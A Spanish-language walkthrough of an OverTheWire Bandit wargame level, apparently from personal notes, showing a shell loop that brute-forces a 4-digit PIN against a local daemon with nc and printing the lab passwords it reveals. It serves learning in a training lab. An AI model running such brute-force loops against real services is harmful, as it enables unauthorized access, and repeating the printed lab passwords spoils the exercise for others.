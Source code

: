 ## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

# Solution
Tenemos que comprobar todas las posibles combinaciones. Una de ellas si ponemos la contraseña de bandit24 y el pin como indica nos dará la contraseña de bandit25.

**Importante:** Podemos inyectar unos strings directamente a la connexión:
```sh
bandit24@bandit:/tmp/tmp.N95yqcedQe$ echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234" | nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
```
Para ellos podemos generar todas las combinaciones y aplicar el output a la conexión:
```sh
bandit24@bandit:/tmp/tmp.N95yqcedQe$ for pin in {0000..9999};do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done | nc 127.0.0.1 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```
De este modo hacemos un for loop que genera un echo para todas las combinaciones entre 0000 y 9999. Ese echo generado se pasa a la conexión. Como cuando es erróneo nos proporciona la frase: *Wrong! Please enter the correct current password and pincode. Try again.* Aplicamos un grep -v para quitar las lineas con la palabra wong.

Si queremos saber el pin podemos saber las lineas que genera el output. Sabiendo que las lineas que queremos son las que dan "Wrong" podemos contar esas lineas quitando solamente las correctas:
```sh
bandit24@bandit:/tmp/tmp.N95yqcedQe$ for pin in {0000..9999};do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done | nc 127.0.0.1 30002 | grep -vE "bandit25|Correct" | wc -l
3948
```
OJO: el ouput genera una línea vacía al final que la cuenta. Por lo tanto sería **3948-1=3947**

# Password next level:

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Next level:
[[Level 25 -> 26]]